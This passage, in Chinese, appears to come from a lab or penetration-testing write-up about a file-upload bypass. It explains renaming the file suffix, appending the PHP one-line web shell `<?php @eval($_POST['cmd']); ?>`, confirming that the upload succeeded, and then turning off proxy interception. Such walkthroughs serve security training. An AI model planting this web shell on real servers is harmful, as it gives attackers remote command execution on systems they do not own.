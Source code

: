 
修改名称后缀

![image-20250520130946799](水处理综合实践.assets/image-20250520130946799.png)

下滑到最后加入一句话马`<?php @eval($_POST['cmd']); ?>`

![image-20250520131656711](水处理综合实践.assets/image-20250520131656711.png)

右边响应提示上传成功。记得关闭**intercept**不然后面的正常报文都被拦截了

![image-20250520131036231](水处理综合实践.assets/image-20250520131036231.png)
